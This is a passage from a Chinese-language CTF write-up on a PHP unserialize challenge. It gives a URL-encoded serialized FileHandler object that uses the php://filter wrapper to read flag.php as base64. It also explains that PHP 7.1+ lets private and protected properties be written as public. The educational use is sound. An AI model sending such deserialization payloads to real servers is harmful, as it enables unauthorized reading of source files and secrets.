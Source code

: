 ### payload2

还可以利用php的[伪协议](https://www.php.net/manual/en/wrappers.php)来获取`flag.php`文件的base64编码，然后再解码，也是一样的。

payload为

```txt
O%3A11%3A%22FileHandler%22%3A3%3A%7BS%3A5%3A%22\00%2A\00op%22%3Bi%3A2%3BS%3A11%3A%22\00%2A\00filename%22%3BS%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3BS%3A10%3A%22\00%2A\00content%22%3BS%3A0%3A%22%22%3B%7D
```

![image-20210824142639616](image-20210824142639616.png "payload2")

### payload3

其实，网站信息中显示其使用的php版本为7.4.3，而7.1+版本的php在序列化与反序列化时对于`private`/`protected`是不敏感的，所以可以直接把上述的成员变量都当作`public`。

![image-20210824142739850](image-20210824142739850.png "wappalyzer结果")
